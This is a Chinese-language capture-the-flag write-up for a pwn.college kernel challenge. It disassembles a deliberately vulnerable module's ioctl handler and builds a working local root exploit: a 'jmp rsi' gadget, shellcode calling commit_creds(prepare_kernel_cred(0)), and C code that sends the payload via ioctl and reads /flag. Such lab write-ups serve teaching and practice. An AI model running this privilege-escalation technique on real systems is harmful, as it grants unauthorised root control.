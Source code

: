 之前写完前面四个的时候凌晨 4 点了，剩下最后一题没写

babykernel 补完



## babykernel_level5_teaching1.ko

![image-20210224204729323](https://gitee.com/scriptkiddies/images/raw/master/image-20210224204729323.png)

老样子，通过 `ioctl` 去控制

### device_ioctl

```asm
__int64 __fastcall device_ioctl(file *file, unsigned int cmd, unsigned __int64 arg)
{
  _QWORD *v3; // rbx
  __int64 result; // rax
  __int64 v5; // rax

  v3 = (_QWORD *)arg; // v3 指向我们 ioctl 的第 3 个参数
  printk(&unk_1018); // 输出 banner
  result = -1LL;
  if ( cmd == 1337 ) // 操作码是 1337 ，也就是 ioctl 的第二个参数
  {
    result = -2LL;
    if ( *v3 <= 0x1000uLL ) // 可以看到 v3 是一个 _QWORD 的类型，也就是 64 bit 的长整形
    {
      copy_from_user(shellcode, v3 + 1); // 复制 arg 第 64bit 之后的内容到 shellcode
      v5 = v3[513]; // v5 就是 rax，rax 存入 v3[513] 处的 64bits 数据
      _x86_indirect_thunk_rax(); // call rax，也就是说 v3[513] 需要放一个有效的地址，这个地址就是后面要执行的
      result = 0LL;
    }
  }
  return result;
}
```

可以看汇编

```asm
.text.unlikely:0000000000000F6C ; __int64 __fastcall device_ioctl(file *file, unsigned int cmd, unsigned __int64 arg)
.text.unlikely:0000000000000F6C device_ioctl    proc near               ; DATA XREF: .data:fops↓o
.text.unlikely:0000000000000F6C file = rdi                              ; file *
.text.unlikely:0000000000000F6C cmd = rsi                               ; unsigned int
.text.unlikely:0000000000000F6C arg = rdx                               ; unsigned __int64
.text.unlikely:0000000000000F6C                 push    rbp
.text.unlikely:0000000000000F6D                 mov     rcx, arg
.text.unlikely:0000000000000F70                 mov     ebp, esi
.text.unlikely:0000000000000F72 cmd = rbp                               ; unsigned int
.text.unlikely:0000000000000F72                 push    rbx
.text.unlikely:0000000000000F73                 mov     rbx, arg
.text.unlikely:0000000000000F76 arg = rbx                               ; unsigned __int64
.text.unlikely:0000000000000F76                 mov     edx, esi
.text.unlikely:0000000000000F78                 mov     rsi, file
.text.unlikely:0000000000000F7B                 mov     file, offset unk_1018
.text.unlikely:0000000000000F82                 call    printk          ; PIC mode
.text.unlikely:0000000000000F87                 or      rax, 0FFFFFFFFFFFFFFFFh
.text.unlikely:0000000000000F8B                 cmp     ebp, 539h
.text.unlikely:0000000000000F91                 jnz     short loc_FC4
.text.unlikely:0000000000000F93                 mov     rdx, [arg]
.text.unlikely:0000000000000F96                 mov     rax, 0FFFFFFFFFFFFFFFEh
.text.unlikely:0000000000000F9D                 cmp     rdx, 1000h
.text.unlikely:0000000000000FA4                 ja      short loc_FC4
.text.unlikely:0000000000000FA6                 mov     rdi, cs:shellcode
.text.unlikely:0000000000000FAD                 lea     rsi, [arg+8]
.text.unlikely:0000000000000FB1                 call    _copy_from_user ; PIC mode
.text.unlikely:0000000000000FB6                 mov     rax, [arg+1008h] # 可以看到 rax 存的是 arg+1008h 位置的内容
.text.unlikely:0000000000000FBD                 call    __x86_indirect_thunk_rax ; PIC mode
.text.unlikely:0000000000000FC2                 xor     eax, eax
.text.unlikely:0000000000000FC4
.text.unlikely:0000000000000FC4 loc_FC4:                                ; CODE XREF: device_ioctl+25↑j
.text.unlikely:0000000000000FC4                                         ; device_ioctl+38↑j
.text.unlikely:0000000000000FC4                 pop     arg
.text.unlikely:0000000000000FC5                 pop     cmd
.text.unlikely:0000000000000FC6
.text.unlikely:0000000000000FC6 locret_FC6:                             ; DATA XREF: .orc_unwind_ip:0000000000001305↓o
.text.unlikely:0000000000000FC6                                         ; .orc_unwind_ip:0000000000001309↓o ...
.text.unlikely:0000000000000FC6                 retn
.text.unlikely:0000000000000FC6 device_ioctl    endp
```



思路：

```asm
.text.unlikely:0000000000000FB6                 mov     rax, [arg+1008h] # 可以看到 rax 存的是 arg+1008h 位置的内容
.text.unlikely:0000000000000FBD                 call    __x86_indirect_thunk_rax ; PIC mode
.text.unlikely:0000000000000FC2                 xor     eax, eax
```

因为是把 `arg+1008h` 当成一个指针，指向 `call rax` 要跳到的指令的地址

我想到的是 `rop`

用一个 `jmp rsi` 执行做跳板调到 `shellcode`

就是在 `arg+1008h`  放入 `jmp rsi` 的地址，这样我们只需要在我们 `ioctl` 的 第三个参数的第  `8` 个字节之后构造 `shellcode` 就能 通过 `jmp rsi` 跳到 `shellcode` 执行

因为可以看到 

```asm
.text.unlikely:0000000000000FAD                 lea     rsi, [arg+8]
```

`rsi` 是存着 `arg+8` 的地址，所以理论成立，开始实践，现在找 `gadget`

```zsh
# r00t @ FakeLinux in ~/code/kernel/pwnkernel/linux-5.4 on git:main x [21:16:52]
$ /home/r00t/.local/bin/ROPgadget --binary ./vmlinux | grep "jmp rsi"
```

得到一堆结果，然后我找到了这个：

```asm
0xffffffff810213b4 : jmp rsi
```

好了，写 `payload`，还是使用 `commit_creds(prepare_kernel_cred(0));` 进行提权

sc.asm

```asm
push rsi;
mov rsi, 0xffffffff810881c0; # prepare_kernel_cred
push rdi;
xor rdi, rdi;
call rsi;
mov rdi, rax;
mov rsi, 0xffffffff81087e80; # commit_creds
call rsi;
pop rdi;
pop rsi;
ret;
```

`rasm2` 编译

```zsh
# r00t @ FakeLinux in ~ [21:19:46]
$ rasm2 -a x86 -b 64 -C -f sc.asm
"\x56\x48\xbe\xc0\x81\x08\x81\xff\xff\xff\xff\x57\x48\x31\xff\xff\xd6\x48\x89\xc7" \
"\x48\xbe\x80\x7e\x08\x81\xff\xff\xff\xff\xff\xd6\x5f\x5e\xc3"
```

得到 `shellcode`，长度 `35`，我们还需要填充 `0x1008 - 35 - 8` 字节，然后放入 `jmp rsi` 的地址，为什么 `-35` 又 `-8` ？

因为前 `8` 个字节是 `v3`，`v3` 是个 `64` 位的长整形，需要小于 `0x1000` ，我们直接用 `0` 填充

构造 payload

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/mman.h>

int main() {
  char *scTmp = "\x56\x48\xbe\xc0\x81\x08\x81\xff\xff\xff\xff\x57\x48\x31\xff\xff\xd6\x48\x89\xc7\x48\xbe\x80\x7e\x08\x81\xff\xff\xff\xff\xff\xd6\x5f\x5e\xc3";
  char *shellcode;
  shellcode = mmap(NULL, 4500, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_SHARED| MAP_ANON, -1, 0);
  if(shellcode == NULL) {
    printf("mmap fail!\n");
    exit(-1);
  }
  memset(shellcode, 0, 8); // 用 0 填充前 8 个字节
  memcpy(shellcode + 8, scTmp, 35); // commit_creds(prepare_kernel_cred(0)); 
  memset(shellcode + 8 + 35, 0x90, 4061); // 0x90 填充
  memcpy(shellcode + 4104,  "\xb4\x13\x02\x81\xff\xff\xff\xff", 8); // jmp rsi
  int fd = open("/proc/pwncollege", O_WRONLY);
  printf("%d\n", fd);
  ioctl(fd, 1337, shellcode);
  system("id");
  system("cat /flag");
  return 0;
}
```

pwn！

![image-20210225010000177](https://gitee.com/scriptkiddies/images/raw/master/image-20210225010000177.png)



其实这个题目有个坑

就是如果你的 `shellcode` 放的那块内存是不可执行的话就会失败，之前我的 `payload` 是放在一个字符数组里面，数组是放在栈上的

```c
char shellcode[] = {"\x56\x48\xbe\xc0\x81\x08\x81\xff\xff\xff\xff\x57\x48\x31\xff\xff\xd6\x48\x89\xc7\x48\xbe\x80\x7e\x08\x81\xff\xff\xff\xff\xff\xd6\x5f\x5e\xc3"};
```

但是我编译的时候没有开启 栈可执行 当跳到 shellcode 执行时就会发生错误，会提示内存页不可执行，所以我才用 mmap 分配一块 可读可写可执行的 内存

结束！

```zsh
# r00t @ FakeLinux in ~ [1:12:20]
$ date
Thu 25 Feb 2021 01:12:21 AM CST
```

